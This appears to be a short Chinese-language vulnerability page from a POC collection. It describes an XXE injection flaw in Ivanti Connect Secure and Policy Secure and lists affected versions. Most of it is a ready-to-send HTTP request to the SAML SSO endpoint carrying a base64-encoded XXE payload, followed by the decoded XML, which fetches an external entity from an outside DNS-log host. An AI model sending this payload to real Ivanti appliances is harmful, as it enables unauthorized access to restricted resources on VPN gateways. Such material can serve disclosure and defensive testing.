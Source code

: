 **漏洞介绍**

Ivanti Connect Secure和Ivanti Policy Secure都是美国Ivanti公司的产品。Ivanti Connect Secure是安全远程网络连接工具。Ivanti Policy Secure是一个网络访问控制 (NAC) 解决方案。

Ivanti Connect Secure和Ivanti Policy Secure存在代码问题漏洞，该漏洞源于存在XML外部实体注入漏洞，允许攻击者在不知情的情况下访问某些受限资源。

**影响版本**

Ivanti Connect_Secure 22.4,Ivanti Connect_Secure 9.1,Ivanti Connect_Secure 22.5 

**漏洞复现**

 **POC** 

```yaml
POST /dana-na/auth/saml-sso.cgi HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/40.0.2214.93 Safari/537.36
Connection: close
Content-Length: 176
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

SAMLRequest=PD94bWwgdmVyc2lvbj0iMS4wIiA/PjwhRE9DVFlQRSByb290IFs8IUVOVElUWSAlIHdhdGNoVG93ciBTWVNURU0KICAgICJodHRwOi8vYzJ2a2J3YnMuZG5zbG9nLnB3L3giPiAld2F0Y2hUb3dyO10+PHI+PC9yPg==
```

<?xml version="1.0" ?><!DOCTYPE root [<!ENTITY % watchTowr SYSTEM
    "http://c2vkbwbs.dnslog.pw/x"> %watchTowr;]><r></r>